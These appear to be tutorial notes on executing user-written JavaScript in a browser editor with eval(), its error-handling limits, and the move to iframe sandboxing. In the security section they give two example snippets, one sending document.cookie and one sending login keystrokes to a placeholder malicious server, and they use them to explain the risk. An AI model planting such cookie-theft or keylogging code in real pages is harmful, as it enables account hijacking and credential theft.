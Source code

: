 # Executing User Code
* We now tackle code execution inside the browser
* How can we take the output of that bundle and execute it "safely"

## eval()
* Long history
* Very easy way to execute arbitrary JavaScript that is contained inside a string is to use the `eval()` function
    - eval() is built into the browser

`index.tsx`

```
// MORE CODE

    // console.log(result);

    setCode(result.outputFiles[0].text);

    eval(result.outputFiles[0].text) 
  };

  return (

// MORE CODE
```

* Run the app

`$ npm start`

* You will see a warning that "eval can be harmful no-eval"
* We will now enter code to be executed in the browser by typing JavaScript inside our textarea

```
console.log('hello')
```

* After submitting our form we see the log in our browser. We just exectuted code in the browser
* Try this:

```
import axios from 'axios'
console.log(axios)
```

* And we get the axios function in our browser
* We can use axios in our browser with:

```
import axios from 'axios'

window.axios = axios;
```

* Then you can use axios in the browser:

```
> axios.get('https://jsonplaceholder.typicode.com/albums')
```

## First problem with eval()
* Users can enter non functions that will throw an error and crash our entire app
* **Fix** try/catch

```
// MORE CODE

    setCode(result.outputFiles[0].text);

    try {
      eval(result.outputFiles[0].text);
    } catch (err) {
      alert(err);
    }
  };

  return (

// MORE CODE
```

* Use same error code and we get an alert

## Houston we have a problem
* Even with a try/catch this won't work in browser

```
setTimeout(() => {
 console.asdfsdf()
}, 100);
```

* We get an error
* Why the error?
    - Whenever we do a `try/catch` around some block of code that code is executed and in that instance that code is executed we watch for an error, as soon as that code is executed we then exit out of the try/catch and life continues as usual
    - We just added in a little bit of async code, when that inner function actually gets executed through use of that setTimeout() we are no longer inside a try/catch block
        + There is no try/catch around that inner function of setTimeout, so if the user every writes any async code inside our app and it throws an error, well then, once again, everything crashes

## Big issues around code execution
* User-provided code might throw errors and cause our program to crash
* User-provided code might mutate the DOM, causing our program to crash
    - User enters `document.body.innerHTML = '';`
        + That makes our page have nothing inside the body (blank)
* A user might accidentally run code provided by another malicious user
    - On `codepen.io` at the bottom add:

```
acios.post(`http://some-malicious-server.com', {
    cookie: document.cookie`
});
```

* And the cookie could have my auth info and sent it to the malicious server and they could impersonate me and do bad things
* Or this:

```
document.querySelector('input').addEventListener('change', (event) => {
    axios.post('malicious-server', {
        value: value.target.value
    })
})
```

* If I go to the login page and enter my email and password, the user can take my email and password which is bad and with every keypress I would be sending all my details to that malicious server

### What if user add an infinite loops
* Code pen has code to detect infinite loops
* We will not handle this case as it's a lot of code for little pay off

## Solution to all 3 problems
* Codepen uses an iframe
* `codesandbox.io` also uses an iframe in the preview window
* `jsfiddle.net` also uses an iframe preview window to prevent all 3 big issues from happening
